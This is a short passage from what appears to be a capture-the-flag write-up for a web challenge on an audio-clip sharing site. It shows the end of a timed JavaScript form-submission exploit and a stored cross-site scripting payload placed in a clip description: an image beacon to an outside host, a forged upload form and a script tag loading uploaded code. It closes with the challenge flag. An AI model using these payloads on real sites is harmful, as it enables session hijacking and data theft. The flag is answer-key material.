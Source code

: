 ```js  
                   body: formData,  
               });  
           }, 5000);  
       }, 15000);  
   }, 1000);

}  
```

The description:

```html  
Has anyone else played "Toaster Wars"? Share me clips with "spatulate" in the
description and I'll give them a listen!  
Spatulate  
![](https://example.com.tw/?xsssuccess)  
<form action="create.php" method="post" enctype="multipart/form-data"
id="upload-form">  
       <div class="box">  
           <label class="title">Title</label>  
           <input type="text" name="title" id="title-input" placeholder="Enter a title" value="a"/>  
       </div>  
       <div class="box">  
           <label class="title">Description</label>  
           <textarea type="text" name="description" id="description-input" placeholder="Enter a description" value="b"></textarea>  
       </div>  
       <div class="box">  
           <label class="title">Clip</label>  
           <div class="options">  
               <div id="upload-option">  
                   <h3>Upload a File</h3>  
                   <h4>You can upload .wav/wave, .mp3, .ogg, .webm</h4>  
                   <label for="audiofile" class="file-label">Upload a file</label>  
                   <input type="file" name="audiofile" id="audiofile" accept="audio/*" />  
               </div>  
               <div class="or"></div>  
               <div id="record-option">  
                   <h3>Record a Clip</h3>  
                   <h4>Recent Chrome or Firefox only</h4>  
                   <button type="button" id="audio-record">Record</button>  
                   <audio id="record-playback" controls></audio>  
               </div>  
           </div>  
       </div>  
       <input type="submit" name="submit" value="submit" />  
   </form>  
<script src="[uploaded_js_url]"></script>  
```

and listen carefully, "the flag is PCTF open bracket not underscore so
underscore smart close bracket."

